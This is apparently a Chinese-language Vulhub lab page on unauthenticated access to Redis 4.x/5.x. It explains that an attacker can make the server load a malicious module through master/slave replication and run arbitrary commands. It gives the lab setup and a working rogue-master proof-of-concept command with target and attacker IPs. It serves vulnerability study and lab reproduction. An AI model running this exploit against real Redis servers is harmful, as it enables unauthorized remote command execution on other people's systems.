


Redis 4.x/5.x 未授权访问漏洞¶
漏洞描述¶
Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。
参考链接：
环境搭建¶
Vulhub执行如下命令启动redis 4.0.14：
docker-compose up -d
环境启动后，通过redis-cli -h your-ip即可进行连接，可见存在未授权访问漏洞。
漏洞复现¶
redis未授权访问：

使用如下POC即可直接执行命令https://github.com/vulhub/redis-rogue-getshell：
$ cd RedisModulesSDK/
$ make
$ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
